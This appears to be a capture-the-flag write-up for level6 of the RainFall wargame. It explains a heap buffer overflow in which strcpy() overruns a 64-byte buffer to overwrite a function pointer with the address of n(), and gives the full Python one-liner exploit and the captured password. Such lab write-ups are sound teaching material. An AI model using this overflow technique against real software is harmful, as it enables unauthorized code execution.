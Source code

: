 <p align="justify">

level6 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

level6 rights:
```Shell
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

Here is what we get when testing:
```Shell
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 weouhalierhgaieurgh
Nope
```

Decompiling with Ghidra on https://dogbolt.org/ shows five things:
- the program takes a string as argument and has two malloc'ed variables
- `__dest` is a string of 64-bytes
- `ppcVar1` is a variable of 4-bytes that currently stores the address of the `m()` function (that does nothing)
- `strcpy()` uses the user input argument to store it into `__dest`, right before calling `ppcVar1`
- there is an unused `n()` that `cat` the next password

The goal is therefore to find a way to replace the content of `ppcVar1` with the `n()` function. To do so, we can do a buffer overflow and abuse `strcpy()`, because it doesn't check that the size of input matches the size of dest. We can pad it with the right amount of chars and simply add the address of `n()`. This will work because `ppcVar1` and `__dest` sit next to each other, as we are on the heap. Overflowing `__dest` will allow us to overwrite whatever is in `ppcVar1` with whatever we want.

To get the right size for the payload, we must calculate how many bytes separate `__dest` from the start of `ppcVar1`.
First, we found the addresses of each malloc using `ltrace`:
```Shell
level6@RainFall:~$ ltrace ./level6
[...]
malloc(64) = 0x0804a008
malloc(4) = 0x0804a050
[...]
```
We can now calculate the offset for our payload by doing the following subtraction: 0x0804a050 - 0x0804a008 = 72

Next, we can find the address of `n()`:
```Shell
(gdb) x n
0x8048454 <n>:  0x83e58955
```

So the result is:
```Shell
level6@RainFall:~$ ./level6 $(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

</p>